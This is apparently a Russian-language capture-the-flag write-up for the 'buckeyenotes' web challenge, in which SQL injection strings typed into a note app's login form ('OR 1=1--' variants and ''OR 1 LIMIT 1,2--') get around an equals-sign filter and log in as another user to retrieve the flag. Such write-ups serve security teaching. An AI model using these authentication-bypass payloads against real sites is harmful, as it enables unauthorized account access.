







# web / buckeyenotes
Author: rene  
URL: https://buckeyenotes.chall.pwnoh.io

### Task

> Note taking apps are all the rage lately but turns our they're harder to make than I thought :/. Even in development buckeyenotes has gotten some traction, Brutus signed up! I think his user name is brutusB3stNut9999. I wonder what kind of notes he writes 🤔 but I don't have his login....

Посетим страницу по [ссылке](https://buckeyenotes.chall.pwnoh.io)



Нам предложено авторизоваться на сайте.  
Попробуем рандомную пару логин / пароль



Сайт вернет ошибку  
Попробуем в поле пароля вставить ``` ' OR 1=1-- ```



Вернется ошибка 
> nice try, >:D I removed your equal signs

Попробуем в поле логина вставить ``` ' OR 1=1-- ```



Вернется
> Logged in as rene. Nothing posted yet :(

Тоже самое через Burp Suite



Далее подставим вместо rene значение, которое было в описании задания ``` 
brutusB3stNut9999 ```. Воспользуемся следующей последовательностью ``` brutusB3stNut9999' OR ' 
1=1-- ```



И нам вернется значение флага
``` Success! your flag is buckeye{wr1t3_ur_0wn_0p3n_2_pwn} ```

Аналогично можно использовать следующие параметры для решения задачи:  
Логин - ``` brutusB3stNut9999 ```  
Пароль - ``` ' OR 1 LIMIT 1,2-- ```


